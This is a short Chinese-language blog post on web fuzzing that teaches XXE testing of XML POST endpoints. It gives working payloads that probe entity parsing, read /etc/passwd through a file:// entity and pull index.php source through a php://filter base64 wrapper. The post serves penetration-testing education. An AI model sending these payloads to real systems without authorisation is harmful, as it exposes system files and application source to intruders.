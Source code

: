 ```yaml
---
layout:     post
title:      Web Fuzzing
date:       2018-12-18
author:     Wh0ale
header-img: img/7s_by_wlop-dav41t7.jpg
catalog: true
tags:
    - FUZZ
---
```


# Web Fuzz

## 1.XXE

### 测试方法

发现post请求的接口的时候，可以这样试试：

```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY test "THIS IS A STRING!">
]>
<methodCall><methodName>&test;</methodName></methodCall>
```

如果发现了一个错误：

```
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test "nice string bro">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```

说明能够解析，试试读文件：

```
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test SYSTEM "file:///etc/passwd">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```

或者用php伪协议：

```
<?xml version="1.0"?>
<!DOCTYPE a
[<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]
>

<methodCall><methodName>&test;</methodName></methodCall>
```
